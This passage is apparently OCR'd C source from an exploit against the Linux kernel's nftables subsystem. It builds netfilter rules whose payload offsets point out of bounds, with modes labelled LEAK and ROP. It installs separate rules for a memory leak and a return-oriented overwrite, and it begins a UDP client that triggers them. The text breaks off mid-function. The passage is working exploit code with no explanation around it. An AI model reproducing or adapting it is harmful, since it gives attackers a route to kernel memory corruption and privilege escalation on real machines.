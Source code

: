 ```c
static struct nftnl_rule *edit_udp_data(uint8_t family, const char *table, const char *chain, dst_type type)
{
    struct nftnl_rule *r = NULL;

    r = nftnl_rule_alloc();
    if (r == NULL)
    {
        perror("OOM");
        exit(EXIT_FAILURE);
    }

    nftnl_rule_set_str(r, NFTNL_RULE_TABLE, table);
    nftnl_rule_set_str(r, NFTNL_RULE_CHAIN, chain);
    nftnl_rule_set_u32(r, NFTNL_RULE_FAMILY, family);

    if (type == LEAK)
        add_payload(r, NFT_PAYLOAD_NETWORK_HEADER, 1073741800, 0, 28, 192);
    else if (type == ROP && ROP_FLAG == 1)
        add_payload(r, NFT_PAYLOAD_NETWORK_HEADER, 0, 0x3fffffca, 28, 0xf0);
    return r;
}

void install_rule_for_leak()
{
    if (create_rule(isolate_udp_pkt(NFPROTO_IPV4, "filter_for_leak", "input", "leak", htons(11111))) == 0)
    {
        perror("error creating rule");
        exit(EXIT_FAILURE);
    }
    if (create_rule(edit_udp_data(NFPROTO_IPV4, "filter_for_leak", "leak", LEAK)) == 0)
    {
        perror("error creating rule");
        exit(EXIT_FAILURE);
    }
}

void install_rule_for_overwrite()
{
    if (create_rule(isolate_udp_pkt(NFPROTO_IPV4, "filter_for_overwrite", "input", "overwrite", htons(22222))) == 0)
    {
        perror("error creating rule");
        exit(EXIT_FAILURE);
    }
    if (create_rule(edit_udp_data(NFPROTO_IPV4, "filter_for_overwrite", "overwrite", ROP)) == 0)
    {
        perror("error creating rule");
        exit(EXIT_FAILURE);
    }
}

void udp_client(char *buf, in_port_t port, dst_type type)
{
    int sockfd = socket(AF_INET, SOCK_DGRAM, 0);
    if (sockfd < 0)
    {
        perror("socket");
        exit(EXIT_FAILURE);
    }

    struct sockaddr_in server_addr =
```